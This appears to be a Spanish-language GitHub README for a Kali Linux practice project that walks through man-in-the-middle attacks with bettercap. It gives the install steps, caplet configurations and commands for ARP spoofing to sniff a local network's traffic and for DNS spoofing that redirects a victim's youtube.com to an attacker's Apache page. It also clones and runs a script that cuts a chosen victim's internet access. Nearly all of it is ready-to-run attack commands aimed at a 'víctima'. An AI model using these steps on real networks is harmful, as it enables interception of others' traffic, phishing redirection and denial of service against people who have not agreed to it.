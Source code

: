 > **❗Nota**: Toda esta práctica se ha realizado en Kali Linux.
# 🥷​MIM-Spoofing
## 🕵️‍♂️Configuración para esnifar el tráfico de la red haciendo Spoofing
En primer lugar, instalaremos el paquete bettercap, esta es la herramienta que vamos a usar para realizar este ataque.
```sh
sudo apt install bettercap
```
Y clonaremos el repositorio
```sh
git clone https://github.com/Dv-AlejandroEH/MIM-Spoofing.git
```
Una vez tengamos estos dos requisitos podemos empezar con el ataque.
Tenemos que modificar el archivo spoof.cap para indicar la IP de la victima.
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets [192.168.0.*] --> Esta es la IP que hay que cambiar
arp.spoof on
set net.sniff.local true
net.sniff on
```
Ya podremos ejecutar el siguiente comando
```sh
bettercap -iface eth0 -caplet spoof.cap
```
En este punto ya estamos viendo todo el tráfico de la red local

## 🔄​Configuración para DNS-Spoofing
En primer lugar, debemos de descargar apache para montar nuestro propio servidor HTTP:
```sh
sudo apt install apache2
```
Una vez instalado agregamos un index.html al directorio /var/www/html, esta página será a la que redigiremos a la victima.
Ejecutaremos el siguiente comando para levantar el servidor web.
```sh
sudo systemctl start apache2
```
En el repositorio que hemos clonado anteriormente, se incluia un archivo llamado spoof-dns.cap, deberemos de modificarlo para añadir los targets, los nombres DNS que queremos suplantar y la dirección IP a la que queremos redirigir a la víctima.
```
set arp.spoof targets [192.168.0.10] --> IP de la victima
arp.spoof on
set dns.spoof.domains [youtube.com] --> Dominio el cual queremos suplantar
set dns.spoof.address [192.168.0.12] --> Dirección IP a la que será dirigida la víctima (puede ser nuestro servidor web u otra IP ya existente en internet)
dns.spoof on
```
Cuando hayamos modificado este archivo podremos ejecutar el siguiente comando.
```sh
sudo bettercap -iface eth0 -caplet spoof-dns.cap
```
La víctima ya estará siendo atacada, cuando acceda a la dirección que le hemos indicado será redirigida a nuestra página.

## ❌​Configuración para denegar internet a la victima mediante Spoofing
Para comenzar, clonaremos el siguiente repositorio.
```sh
git clone https://github.com/Maalfer/PinguExit.git
```
Una vez clonado ejecutaremos el comando.
```sh
sudo arp-scan -I eth0 --localnet
```
Ya podremos ejecutar el script de python que hemos clonado del repositotio
```sh
sudo python3 script.py
```
En la interfaz gráfica que nos ha aparecido introduciremos la IP a la que deseamos realizar el ataque y este se realizará automaticamente dejando a la víctima sin conexión a internet.
